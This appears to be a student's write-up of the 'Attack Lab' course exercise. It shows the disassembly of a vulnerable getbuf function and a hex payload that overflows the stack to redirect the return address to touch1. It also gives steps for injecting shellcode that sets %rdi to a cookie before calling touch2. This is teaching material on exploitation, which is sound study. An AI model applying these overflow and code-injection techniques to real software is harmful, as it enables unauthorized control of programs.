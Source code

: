 ### Attack Lab
```
Dump of assembler code for function getbuf:
   0x0000000000401858 <+0>:	    sub    $0x38,%rsp // 0x38 = 56 bytes of padding
   0x000000000040185c <+4>:	    mov    %rsp,%rdi
   0x000000000040185f <+7>:	    call   0x401a9a <Gets>
   0x0000000000401864 <+12>:	mov    $0x1,%eax
   0x0000000000401869 <+17>:	add    $0x38,%rsp
   0x000000000040186d <+21>:	ret    
```
```
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
- Phase 1
    - Simple buffer overflow
    - Set return address of getbuf to address of touch1
    - Return address is always stored right above (greater) than the stack space allocated to the called function, in this case getbuf requires 0x38 (56) bytes
    - Instructions
        - Fill in the 56 bytes of getbuf with blanks (00 bytes)
        - Overwrite the return address to be the address of touch1 by overwriting the buffer and editing the stack space above
    - Difference from homework problem:
        - No registers are pushed before the sub command
        - If there are registers, that adds an additional 8 bytes of padding for every register
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
40 18 6e 00 00 00 00 00	// address of touch1 
```
```
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
- Phase 2
    - Set return address to touch2 but ensure that %rdi is the cookie when calling touch2
    - Write code that moves cookie to %rdi, then return
    - Store code to move cookie to %rdi somewhere in the stack
    - Instructions
        - Write code to mov cookie value to rdi and return in phase2.s
        - Compile phase2.s using gcc -c phase2.s
        - Dissasemble the compiled code with objdump -d phase2.o > phase2.d
        - Copy the byte representation of the disassembled code